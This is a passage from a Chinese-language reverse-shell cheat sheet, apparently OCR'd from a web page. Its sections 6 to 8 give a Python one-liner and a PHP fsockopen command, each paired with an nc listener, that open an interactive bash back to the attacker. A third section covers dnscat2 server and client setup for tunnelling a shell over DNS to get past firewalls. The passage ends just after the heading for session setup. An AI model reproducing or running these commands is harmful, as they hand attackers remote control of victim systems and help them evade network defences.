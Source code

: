 

##### 6.Python反弹

攻击端：

nc -lvp 23333

受害端：

Python -c “import
os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((‘192.168.154.129’,23333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([’/bin/bash’,’-i’]);”



##### 7.Php -r反弹

攻击端：

nc -lvp 23333

受害端：

php -r ‘$sock=fsockopen(“127.0.0.1”,23333);system("/bin/bash -i <&3 >&3 2>&3");’

(要先确认system函数在ini中是否被禁用)



##### 8.Dnscat反弹

（基于DNS协议的通信工具，一般的通信工具基于TCP等的传输方式非常容易被防火墙拦截，但是dnscat2基于的DNS查询与响应报文一般不会被拦截，进而可以完成信息传输。）
DnsCat服务器的安装:

#git clone https://github.com/iagox86/dnscat2.git
#cd dnscat2
#cd server
#sudo gem install bundler
#bundle install
#sudo ruby./dnscat2.rb
1
2
3
4
5
6


客户端：

git clone https://github.com/iagox86/dnscat2 
cd dnscat2/client/ 
Make
./dnscat --dns server=192.168.2.101,port=53 --secret=706f8a6c1950ea305a82c9d6d873b958
1
2
3
4
会话建立：
